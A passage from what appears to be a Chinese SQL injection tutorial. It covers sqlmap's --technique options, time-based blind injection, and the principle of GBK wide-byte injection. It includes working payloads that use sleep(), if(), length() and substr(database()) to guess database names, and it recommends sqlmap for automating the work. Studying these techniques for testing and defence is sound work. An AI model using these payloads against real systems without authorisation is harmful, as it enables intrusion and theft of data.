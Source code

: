 **实际上，还是直接使用sqlmap方便**，直接在命令后面加 --technique B参数，则是指定进行布尔型注入（Boolen）。默认情况是BEUSTQ，即全部方式

 SQLMAP目前支持的注入方式包括（默认全进行）：

>   B: Boolean-based blind SQL injection（布尔型注入）
>
>   E: Error-based SQL injection（报错型注入）
>
>   U: UNION query SQL injection（可联合查询注入）
>
>   S: Stacked queries SQL injection（可多语句查询注入）
>
>   T: Time-based blind SQL injection（基于时间延迟注入）
>
>   Q: Inline SQL Injection (内联注入)

### 延时盲注

跟布尔盲注类似，也是猜解字符串，只不过由于前端回显更不明显，需要使用if和sleep语句来判断注入结果

判断：

```
?id=1’ and sleep(5)		// 响应时间比正常情况多5秒，则存在延时注入
```


查数据库
```
?id=1’and if((ascii(substr(database(),1,1))>114) ,sleep(5),0)
```
其他操作方式与布尔型类似。
例如：
尝试延时注入

```
?id=1’ and sleep(5) --+ 	//第一步,判断是否有延时注入
?id=1' and if(length(database())><=N,sleep(5),0) --+		//第二步，猜测数据库名长度
?id=1’and if((ascii(substr(database(),1,1))>114) ,sleep(5),0) --+ 	//第三步猜测数据库名
```

**手工注入是不可能手工注入的，还是sqlmap省事**，加参数 --technique=T，时间注入一步到位。



### 宽字节注入

GBK编码每个字符占两字节（bytes）

ASCII编码每个字符占一字节

**重点：注入原理**

**PHP中使用的编码方式为GBK，**

**函数执行（参数等）使用的是ASCII编码；**

**而MYSQL使用的默认字符集是GBK等宽字节字符集。**

当后端用PHP的函数（如addslashes()、mysql_real_escape_string()、mysql_escape_string()等函数）对用户输入进行检测，对危险字符进行转义时，就有可能发生宽字节注入漏洞。
